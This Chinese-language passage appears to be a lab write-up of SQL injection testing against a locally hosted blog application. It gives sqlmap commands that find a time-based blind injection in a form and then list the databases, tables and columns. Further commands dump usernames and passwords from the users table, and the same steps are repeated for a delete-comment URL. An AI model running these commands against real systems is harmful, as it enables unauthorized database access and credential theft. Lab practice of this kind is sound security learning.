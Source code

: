 (1).使用sqlmap检测注入点：(在虚拟机上访问主机的) 

```
sqlmap -u http://192.168.1.6:5678/index.html --forms
```

[![hl5Xtg.png](https://z3.ax1x.com/2021/08/28/hl5Xtg.png)](https://imgtu.com/i/hl5Xtg)

知数据库为MySQL且>=5.0.12，存在延时盲注。

(2).查找数据库：

```
sqlmap -u http://192.168.1.6:5678/index.html --forms --dbs
```

[![hlTb0x.png](https://z3.ax1x.com/2021/08/28/hlTb0x.png)](https://imgtu.com/i/hlTb0x)

(3).查找当前数据库：

```
sqlmap -u http://192.168.1.6:5678/index.html --forms --current-db
```

[![hlTOAK.png](https://z3.ax1x.com/2021/08/28/hlTOAK.png)](https://imgtu.com/i/hlTOAK)

(4).查找表名：

```
sqlmap -u http://192.168.1.6:5678/index.html --forms -D blog --tables
```

[![hlTXtO.png](https://z3.ax1x.com/2021/08/28/hlTXtO.png)](https://imgtu.com/i/hlTXtO)

(5).查找列名：

```
sqlmap -u http://192.168.1.6:5678/index.html --forms -D blog -T users --columns
```

[![hl7BE6.png](https://z3.ax1x.com/2021/08/28/hl7BE6.png)](https://imgtu.com/i/hl7BE6)

(6).爆数据：

```
sqlmap -u http://192.168.1.6:5678/index.html --forms -D blog -T users -C user,pwd --dump
```

[![hlvD9P.png](https://z3.ax1x.com/2021/08/28/hlvD9P.png)](https://imgtu.com/i/hlvD9P)

通过SQL盲注得到了用户账号和密码，同理数据库中其他数据也可以获得。

2.删除评论处 ``http://192.168.1.6:5678/article_del.php?id=1``

```
sqlmap -u http://192.168.1.6:5678/article_del.php?id=1 --level 5 --current-db
sqlmap -u http://192.168.1.6:5678/article_del.php?id=1 --level 5 -D blog --tables
sqlmap -u http://192.168.1.6:5678/article_del.php?id=1 --level 5 -D blog -T users --columns
sqlmap -u http://192.168.1.6:5678/article_del.php?id=1 --level 5 -D blog -T users -C user,pwd --dump
```

3.注册处同理 ``http://192.168.1.6:5678/register.php`` 与登录出同理。

